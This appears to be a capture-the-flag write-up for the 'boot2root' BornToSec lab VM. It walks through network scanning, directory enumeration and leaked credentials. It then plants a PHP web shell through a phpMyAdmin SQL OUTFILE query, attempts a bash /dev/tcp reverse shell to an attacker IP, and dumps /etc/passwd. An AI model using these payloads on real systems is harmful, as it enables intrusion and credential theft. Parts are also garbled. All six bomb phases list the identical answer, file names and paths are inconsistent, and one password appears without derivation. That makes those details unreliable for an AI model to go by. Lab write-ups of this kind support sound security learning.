 

## To get the ip and port of the VM

```sh
ifconfig # to get the ip of the vm
```


```sh
netstat -r # get open ports and ip
```

```sh
sudo nmap -v -T4 -A 192.168.1.0/24 # scan the network
```

```sh
arp -a
```

port ftp : 21 -> donc l'ip avec un port ftp appartiend a boot2root

to get all the ports :

```sh
nmap -sC -sV -oN nmap/initial 192.168.1.48
```
Results on our machine:

```sh
➜  ~ nmap -sC -sV -oN nmap/initial 192.168.1.48
Starting Nmap 7.91 ( https://nmap.org ) at 2021-01-14 21:31 CET
Nmap scan report for 192.168.1.48
Host is up (0.0018s latency).
Not shown: 994 closed ports
PORT    STATE SERVICE  VERSION
21/tcp  open  ftp      vsftpd 2.0.8 or later
|_ftp-anon: got code 500 "OOPS: vsftpd: refusing to run with writable root inside chroot()".
22/tcp  open  ssh      OpenSSH 5.9p1 Debian 5ubuntu1.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   1024 07:bf:02:20:f0:8a:c8:48:1e:fc:41:ae:a4:46:fa:25 (DSA)
|   2048 26:dd:80:a3:df:c4:4b:53:1e:53:42:46:ef:6e:30:b2 (RSA)
|_  256 cf:c3:8c:31:d7:47:7c:84:e2:d2:16:31:b2:8e:63:a7 (ECDSA)
80/tcp  open  http     Apache httpd 2.2.22 ((Ubuntu))
|_http-server-header: Apache/2.2.22 (Ubuntu)
|_http-title: Hack me if you can
143/tcp open  imap     Dovecot imapd
|_imap-capabilities: OK have post-login capabilities LITERAL+ STARTTLS LOGINDISABLEDA0001 SASL-IR ENABLE listed IMAP4rev1 ID LOGIN-REFERRALS Pre-login more IDLE
| ssl-cert: Subject: commonName=localhost/organizationName=Dovecot mail server
| Not valid before: 2015-10-08T20:57:30
|_Not valid after:  2025-10-07T20:57:30
|_ssl-date: 2021-01-14T20:31:59+00:00; 0s from scanner time.
443/tcp open  ssl/http Apache httpd 2.2.22
| ssl-cert: Subject: commonName=BornToSec
| Not valid before: 2015-10-08T00:19:46
|_Not valid after:  2025-10-05T00:19:46
|_ssl-date: 2021-01-14T20:31:59+00:00; 0s from scanner time.
993/tcp open  ssl/imap Dovecot imapd
|_imap-capabilities: OK AUTH=PLAINA0001 have LITERAL+ Pre-login post-login SASL-IR ENABLE listed IMAP4rev1 ID LOGIN-REFERRALS capabilities more IDLE
| ssl-cert: Subject: commonName=localhost/organizationName=Dovecot mail server
| Not valid before: 2015-10-08T20:57:30
|_Not valid after:  2025-10-07T20:57:30
|_ssl-date: 2021-01-14T20:31:59+00:00; 0s from scanner time.
Service Info: Host: 127.0.0.1; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 31.10 seconds
```

we launch gobuster on the ip, here are the results:

```sh
➜  gobuster-darwin-amd64 ./gobuster dir --url "https://192.168.1.48" -w directory-list-2.3-medium.txt -k
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     https://192.168.1.48
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2021/01/14 22:11:26 Starting gobuster in directory enumeration mode
===============================================================
/forum                (Status: 301) [Size: 314] [--> https://192.168.1.48/forum/]
/webmail              (Status: 301) [Size: 316] [--> https://192.168.1.48/webmail/]
/phpmyadmin           (Status: 301) [Size: 319] [--> https://192.168.1.48/phpmyadmin/]
/server-status        (Status: 403) [Size: 294]

===============================================================
2021/01/14 22:15:57 Finished
===============================================================
```


on forum ```https://ip_machine/forum/index.php?id=6```

we found a password on the report : 
```!q\]Ej?*5K5cy*AJ```
![result](./screen.png)

we connect to ```lmezard``` (the sender of the message) with this password
we manage to get lmezard's mail : ```laurie@borntosec.net```

we found that there is a phpmyadmin page and a webmail page. 

We access to the webmail of laurie : 
![result](./mail.png) 
![result](./mail1.png)

for php my admin 

```
login : root
mdp : Fg-'kKXBj87E:aJ$
```

on this website, we found multiple exploit and one with 9.8/10 score on SquirrelMail :
**https://www.cvedetails.com/cve/CVE-2017-7692/**


In metasploit with :
```
search cve 7692
```
But we ve found nothing interesting

with metasploit, we can find known exploit and use automated solution already found

here is one we try for SquirrelMail : 

**https://www.cvedetails.com/cve/CVE-2017-7692/**



We analyse forum dir with gobuster
```sh
➜  gobuster-darwin-amd64 ./gobuster dir --url "https://192.168.1.48/forum/" -w directory-list-2.3-medium.txt -k
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     https://192.168.1.48/forum/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2021/01/14 22:10:38 Starting gobuster in directory enumeration mode
===============================================================
/images               (Status: 301) [Size: 321] [--> https://192.168.1.48/forum/images/]
/themes               (Status: 301) [Size: 321] [--> https://192.168.1.48/forum/themes/]
/modules              (Status: 301) [Size: 322] [--> https://192.168.1.48/forum/modules/]
/index                (Status: 200) [Size: 4935]
/includes             (Status: 301) [Size: 323] [--> https://192.168.1.48/forum/includes/]
/update               (Status: 301) [Size: 321] [--> https://192.168.1.48/forum/update/]
/js                   (Status: 301) [Size: 317] [--> https://192.168.1.48/forum/js/]
/lang                 (Status: 301) [Size: 319] [--> https://192.168.1.48/forum/lang/]
/config               (Status: 403) [Size: 293]
/backup               (Status: 403) [Size: 293]
/templates_c          (Status: 301) [Size: 326] [--> https://192.168.1.48/forum/templates_c/]

===============================================================
2021/01/14 22:15:36 Finished
===============================================================
```

we just have to add a file in template_c with :
```sh
SELECT "<?php system($_GET['cmd']) ?>" into outfile "/var/www/forum/template_c/cmd.php"
```
in the php my admin sql execution

thne we can execute any command with 

```https://192.168.1.48/forum/templates_c/EXPLOIT.php?cmd=ls```

to execute ls and with anything we want just by replacing ls.

we try to create reverse shell with
```
https://192.168.1.48/forum/templates_c/cmd.php?cmd=%22bash%20-i%20%3E&%20/dev/tcp/192.168.1.27/4242%200%3E&1%22
```
and nc


we have get /etc/passwd with :
```
https://192.168.1.48/forum/templates_c/cmd.php?cmd=cat%20/etc/passwd
```

```
root:x:0:0:root:/root:/bin/bash daemon:x:1:1:daemon:/usr/sbin:/bin/sh bin:x:2:2:bin:/bin:/bin/sh sys:x:3:3:sys:/dev:/bin/sh sync:x:4:65534:sync:/bin:/bin/sync games:x:5:60:games:/usr/games:/bin/sh man:x:6:12:man:/var/cache/man:/bin/sh lp:x:7:7:lp:/var/spool/lpd:/bin/sh mail:x:8:8:mail:/var/mail:/bin/sh news:x:9:9:news:/var/spool/news:/bin/sh uucp:x:10:10:uucp:/var/spool/uucp:/bin/sh proxy:x:13:13:proxy:/bin:/bin/sh www-data:x:33:33:www-data:/var/www:/bin/sh backup:x:34:34:backup:/var/backups:/bin/sh list:x:38:38:Mailing List Manager:/var/list:/bin/sh irc:x:39:39:ircd:/var/run/ircd:/bin/sh gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/bin/sh nobody:x:65534:65534:nobody:/nonexistent:/bin/sh libuuid:x:100:101::/var/lib/libuuid:/bin/sh syslog:x:101:103::/home/syslog:/bin/false messagebus:x:102:106::/var/run/dbus:/bin/false whoopsie:x:103:107::/nonexistent:/bin/false landscape:x:104:110::/var/lib/landscape:/bin/false sshd:x:105:65534::/var/run/sshd:/usr/sbin/nologin ft_root:x:1000:1000:ft_root,,,:/home/ft_root:/bin/bash mysql:x:106:115:MySQL Server,,,:/nonexistent:/bin/false ftp:x:107:116:ftp daemon,,,:/srv/ftp:/bin/false lmezard:x:1001:1001:laurie,,,:/home/lmezard:/bin/bash laurie@borntosec.net:x:1002:1002:Laurie,,,:/home/laurie@borntosec.net:/bin/bash laurie:x:1003:1003:,,,:/home/laurie:/bin/bash thor:x:1004:1004:,,,:/home/thor:/bin/bash zaz:x:1005:1005:,,,:/home/zaz:/bin/bash dovecot:x:108:117:Dovecot mail server,,,:/usr/lib/dovecot:/bin/false dovenull:x:109:65534:Dovecot login user,,,:/nonexistent:/bin/false postfix:x:110:118::/var/spool/postfix:/bin/false 
```

```
https://192.168.1.48/forum/templates_c/cmd.php?cmd=cat%20/home/LOOKATME/password
```

```
lmezard:G!@M6f4Eatau{sF 
```

the pass is the pass of the ftp server:
![result](./filezila.png)
![result](./readme.png)

so let's try to resolve the enigma on the fun file

By doing cmd file on it we found that is is a POSIX tar archive (GNU)

running tar -xvf on the fun file gave us a lot of pcap file in ft_fun


pass : Iheartpwnage

encrypt : 330b845f32185747e4f8ca15d40ca59796035c89ea809fb5d30f4da83ecf45a4

then we use it to ssh with laurie on the boot2root iso

we decompile bomb and we deduced with the c decompilation that:

1 phase: ```Public speaking is very easy.```

2 phase: ```Public speaking is very easy.```
3 phase: ```Public speaking is very easy.```
4 phase: ```Public speaking is very easy.```
5 phase: ```Public speaking is very easy.```
6 phase: ```Public speaking is very easy.```